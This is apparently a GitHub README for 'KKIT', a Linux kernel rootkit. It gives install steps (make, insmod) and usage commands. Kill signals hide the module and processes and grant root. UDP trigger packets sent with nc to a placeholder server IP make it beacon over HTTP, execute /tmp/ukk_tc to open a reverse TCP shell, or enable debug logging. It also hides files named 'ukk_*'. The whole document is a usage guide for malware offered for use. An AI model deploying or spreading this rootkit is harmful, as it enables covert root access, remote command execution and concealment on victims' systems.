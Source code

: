 # KKIT
A Linux Kernel RootKit

## Install
```shell
make

insmod kkit.ko
```

## USE
### hide/show the module:
```shell
kill -62 0
```
### hide/show process:
```shell
kill -60 pid
```
### getroot:
```shell
kill -61 0
```
### heartbeat
Trigger to send a http request:
```shell
# Server:
nc -p 1338 123.123.123.123 50005 -u
fdsfasd
```
If the kkit received a udp packet sended from 1338 port to 50005 port, the kkit will send a http packet to the targeted server ip
```shell
#server:
python3 -m http.server 50002
```
### exec_cmd

```shell
#Server
nc -p 1339 123.123.123.123 50005 -u
fsdfsdaf
```
If the kkit received a udp packet sended from 1339 port to 50005 port, the kkit will exexcve /tmp/ukk_tc
If the ukk_tc is a binary will establish reverse tcp connection, the kkit can establish reverse tcp connection

### debug_mode
If want to see the running debug log:
```shell
#Server
nc -p 1340 123.123.123.123 50005 -u
fsdfsdaf
```

### hide file
If the filename is "ukk_*", the file will be hided.

